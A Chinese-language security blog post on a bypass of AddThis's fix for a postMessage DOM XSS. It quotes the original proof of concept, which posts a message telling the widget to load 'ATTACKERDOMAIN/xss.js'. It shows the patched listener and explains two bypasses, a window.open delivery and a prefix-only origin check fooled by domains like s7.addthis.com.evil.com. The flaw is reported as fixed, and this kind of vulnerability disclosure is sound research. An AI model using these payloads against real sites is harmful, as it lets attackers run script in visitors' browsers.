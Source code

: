 title: "分享插件AddThis导致的DOM XSS"
date: 2016-12-25 14:03:41
tags: ["安全", "XSS"]

---

## 背景

说明：这个漏洞是 https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/ 修复的绕过，目前已经报告给AddThis并得到修复。

> AddThis是由多姆·沃纳伯格（Dom Vonarburg）创立并由Clearspring公司拥有的一个社会性书签服务。它可以与网站进行整合，访客即可用它将网站上的某些内容通过其他网络服务收藏或分享，诸如Facebook、MySpace、Google书签、Twitter等
> From https://zh.wikipedia.org/wiki/AddThis

使用的例子有：

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30n0dmyqj20nd08o0wd.jpg)

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30nhwnasj20rq0bddho.jpg)

## 分析

使用这款插件，需要在网页上加入类似以下的代码

```html
<!-- Go to www.addthis.com/dashboard to customize your tools -->
<script src="//s7.addthis.com/js/300/addthis_widget.js#pubid=ra-538ceb912f1cca19" async="async"></script>
```

当插件加载完成后，就会监听`message`事件。

![](http://ww3.sinaimg.cn/large/7184df6bgw1fb3110ele5j21340em79m.jpg)

看完前面提到的那篇文章之后，我们可以知道在这个事件处理函数中，如果`message`事件处理函数接收到一个 *合法来源* 的消息，消息内容如下：`at-share-bookmarklet://example.com/xss.js`时，就会动态在页面中插入指定的JS脚本。之前的漏洞是在这里根本没有检查消息的来源就直接加载执行导致了DOM XSS，原先的PoC：

```html
<iframe id="frame" src="https://targetpage/using_addthis"></iframe>

<script>
document.getElementById('frame').contentWindow.postMessage('at-share-bookmarklet://ATTACKERDOMAIN/xss.js', '*');
</script>
```

AddThis对这个漏洞进行的修复如下：
1. 添加检查当前窗口是不是被嵌套在：`iframe`, `frame`等标签里，如果是，则不监听`message`事件。
2. 检查来源

修复后的代码如下：

```js
, c = window.parent === window;
...
c && u(window, "message", function(e) {
  if (e) {
      var t = _atr.substring(0, _atr.length - 1)
        , n = e.origin.indexOf(t) === "https:".length || e.origin.indexOf(t) === "http:".length || /^https?:\/\/(localhost:\d+|localhost$)/.test(e.origin)
        , o = "string" == typeof e.data;
      if (o && n) {
          var a = e.data.match(/at\-share\-bookmarklet\:(.+?)$/) || []
            , i = a[1];
          if (i) {
              try {
                  _ate.menu.close()
              } catch (s) {}
              r(i)
          }
      }
  }
})
```

1. 其中`_attr`的值为`//s7.addthis.com/`，那么`t`的值就是`//s7.addthis.com`
2. `e.origin`是调用了`postMessage`这个API的来源
3. 什么时候`o && n`的值会是真呢？例如站点：`http://s7.addthis.com/`向目标站点发送消息的时候

但这个修复真的没有问题了吗？在使用postMessage进行跨域通信的时候，有以下几种场景：

1. 父窗口与iframe，frame等标签里的子网页进行通信，即上面那个PoC
2. 使用window.open打开一个新的窗口

  ```js
  var win = window.open("http://target.com/index.html");
  win.postMessage("this is a message", "*");
  ```

  `http://target.com/index.html`这个页面就可以监听`message`事件获取到以上的消息。


也就是说，对于一个安装了这个插件的目标站点，我们依旧可以通过方法2发送一个消息给他。另外，这里的域名检查也不完善，简单的说，只要是`s7.addthis.com`开头的域名都是合法的，如`s7.addthis.com.evil.com`

```js
> e.origin = 'http://s7.addthis.com.evil.com'
> e.origin.indexOf(t) === "http:".length
< true
```

<script src="https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/js/addthis_widget.js"></script>
